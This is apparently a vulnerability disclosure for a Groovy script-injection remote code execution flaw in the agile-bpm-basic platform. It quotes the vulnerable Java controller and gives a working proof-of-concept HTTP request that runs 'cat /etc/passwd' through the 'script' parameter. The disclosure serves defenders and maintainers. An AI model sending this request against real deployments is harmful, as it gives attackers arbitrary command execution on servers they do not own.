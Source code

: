 # Vulnerability Description

The open source low-code rapid development platform "[agile-bpm/agile-bpm-basic](https://gitee.com/agile-bpm/agile-bpm-basic)" has a code execution vulnerability that allows attackers to execute arbitrary Groovy scripts to gain full control of the victim's server.

- Vulnerability Discloser: [Honor Cyber Security Lab](https://github.com/honorseclab)
  
- Vendors: [www.tongzhouyun.com](https://www.tongzhouyun.com/)
  
- Source code address： [agile-bpm/agile-bpm-basic](https://gitee.com/agile-bpm/agile-bpm-basic)
  

Related reports online link:

- [https://gitee.com/agile-bpm/agile-bpm-basic/issues/ICAPT5](https://gitee.com/agile-bpm/agile-bpm-basic/issues/ICAPT5);
- [https://github.com/honorseclab/vulns/blob/main/AgileBPM_agile-bpm-basic/RCE.md](https://github.com/honorseclab/vulns/blob/main/AgileBPM_agile-bpm-basic/RCE.md);

Note:

- **This vulnerability was discovered automatically by my AI code audit tool**.
  
- The vulnerability is in the latest version code submitted as of 20250526, but the author has not synchronized the release version. According to the public Readme information, it is roughly judged to belong to version v2.8.
  

# Vulnerability Analysis

The vulnerability code entry point is located at：

- [https://gitee.com/agile-bpm/agile-bpm-basic/blob/master/ab-sys/ab-sys-core/src/main/java/com/dstz/sys/rest/controller/SysScriptController.java#L62](https://gitee.com/agile-bpm/agile-bpm-basic/blob/master/ab-sys/ab-sys-core/src/main/java/com/dstz/sys/rest/controller/SysScriptController.java#L62)

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
// ab-sys\ab-sys-core\src\main\java\com\dstz\sys\rest\controller\SysScriptController.java:executeScript
    @RequestMapping(value = "executeScript", produces = MediaType.APPLICATION_JSON_VALUE)
    public ApiResponse<Object> executeScript(@RequestParam("key") String name, @RequestParam("script") String script) {
        checkIsDemoEnvironment();
        Object retVal;
        try {
            // 执行结果
            retVal = groovyScriptEngine.evaluate(script, new HashMap<>(0));
        } catch (Exception e) {
            logger.warn("执行脚本出错, 脚本名称：{}, 脚本: {}", name, script, e);
            retVal = String.format("执行脚本出错, %s", e.getMessage());
        }
        return ApiResponse.success(retVal);
    }

// ab-component\ab-groovy-script-engine\src\main\java\com\dstz\groovy\script\engine\GroovyScriptEngine.java:evaluate
    @SuppressWarnings("unchecked")
    @Override
    public <T> T evaluate(String script, Map<String, Object> vars) {
        if (CharSequenceUtil.isBlank(script)) {
            return null;
        }
        script = stringEscape.replace(script).toString();
        if (logger.isDebugEnabled()) {
            logger.debug("执行:{}", script);
            logger.debug("variables:{}", ObjectUtil.toString(vars));
        }
        try {
            groovyBinding.setThreadVariables(vars);
            GroovyShell shell = groovyShellCache.get(DigestUtils.md5DigestAsHex(script.getBytes(StandardCharsets.UTF_8)), () -> new AbGroovyShell(groovyBinding));
            T result = (T)shell.evaluate(script);
            if (logger.isDebugEnabled()) {
                logger.debug("result:{}", result);
            }
            return result;
        } catch (ExecutionException ex) {
            throw new GroovyEngineEvaluateException(ex.getMessage(), ex, script);
        }finally {
            groovyBinding.clearVariables();
        }
    }

// ab-base\ab-base-web\src\main\java\com\dstz\base\web\controller\AbCrudController.java
    protected void checkIsDemoEnvironment() {
        if("demoa5.tongzhouyun.com".equals(AbRequestUtils.getHttpServletRequest().getServerName())) {
             throw new BusinessException(GlobalApiCodes.REMOTE_CALL_ERROR.formatDefaultMessage("演示环境禁止当前操作，访问信息已经被统计！"));
        }
    }
```

As you can see, the external API ("/executeScript") receives the value of the externally controllable string variable "script" and passes it directly to the "groovy.lang.GroovyShell:evaluate" function for script execution without any verification. This constitutes a complete arbitrary code execution vulnerability, which can be used by attackers to gain control of the victim's server.

In addition, although the author added the "checkIsDemoEnvironment" function to restrict API access, it only restricts the access of requests corresponding to the demonstration environment domain name, and any other user who deploys this open source project code will be threatened by this vulnerability.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file. The easiest way is to deploy the environment through containers, which only requires the following two commands:

```shell
docker pull registry.cn-hangzhou.aliyuncs.com/agilebpm/agile-bpm-basic:latest
docker run --name agile-bpm-basic -p 80:80 registry.cn-hangzhou.aliyuncs.com/agilebpm/agile-bpm-basic:latest
```

Then visit the login page through http://ip:80, log in with the default account and password, and obtain a valid "Authorization" request header.

The vulnerability proof of concept (POC) is as follows:

```js
GET /api/ab-bpm/sys/script/executeScript?key=hello&script=%22cat%20/etc/passwd%22.execute().text HTTP/1.1
Host: 192.168.190.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=UTF-8
Authorization: Bearer XNJ_yTo3yvv9U5ah6R5TKgcAQYs
Content-Length: 0
Origin: http://192.168.190.132
Connection: keep-alive
Referer: http://192.168.190.132/sys/scripts/scriptList
Priority: u=0
```

After I deployed this project on my Ubuntu virtual machine, I successfully executed the "cat /etc/passwd" command by accessing the API and verified this vulnerability, as shown in the following picture.

![imagepng](https://cdn.nlark.com/yuque/0/2025/png/21744475/1748262984719-ea67f2c9-8c9c-49ab-b3aa-ed164be25386.png?x-oss-process=image%2Fformat%2Cwebp)

# Security Suggestions

Verify the legitimacy of the script to be executed to prevent arbitrary code execution from causing the server to be controlled by attackers.
